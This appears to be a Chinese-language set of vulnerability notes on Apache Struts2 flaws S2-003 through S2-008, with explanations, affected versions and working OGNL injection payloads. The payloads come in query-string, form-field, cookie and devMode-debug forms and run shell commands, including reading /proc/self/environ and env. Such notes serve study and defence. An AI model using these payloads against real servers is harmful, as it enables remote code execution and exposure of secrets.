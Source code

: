 #### S2-003

Struts2将HTTP的每个参数名解析为ognl语句执行,而ognl表达式是通过#来访问struts的对象，Struts2框架虽然过滤了#来进行过滤，但是可以通过unicode编码（u0023）或8进制（43）绕过了安全限制，达到代码执行的效果

影响版本：Struts 2.0.0 - Struts 2.0.11.2

#### S2-005

S2-005和S2-003的原理是类似的，因为官方在修补S2-003不全面，导致用户可以绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成的漏洞，可以说是升级版的S2-005是升级版的S2-003

影响版本：Struts 2.0.0 - Struts 2.1.8.1

```java
?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ifconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

#### S2-007

当配置了验证规则` <ActionName>-validation.xml `时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回

影响版本：Struts2 2.0.0 - Struts2 2.2.3

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /proc/self/environ').getInputStream())) + '
```

#### S2-008

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在` struts2 `应用开启 `devMode` 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 `kxlzx` 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了` debug `模式的应用到服务器上作为后门也是有可能的。

- 虽然在struts2没有对恶意代码进行限制，但是java的webserver（Tomcat），对cookie的名称有较多限制，在传入struts2之前就被处理，从而较为鸡肋

```java
Cookie:('#_memberAccess.setAllowStaticMethodAccess(true)')(1)(2)=Aluvion; ('@java.lang.Runtime@getRuntime().exec("calc")')(1)(2)=Twings;
```

- 通过` devMode `模式下的调试接口，可以直接执行命令

开启了调试模式，但是调试模式中存在 OGNL 表达式注入漏洞

```java
devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27env%27%29.getInputStream%28%29%29)
```
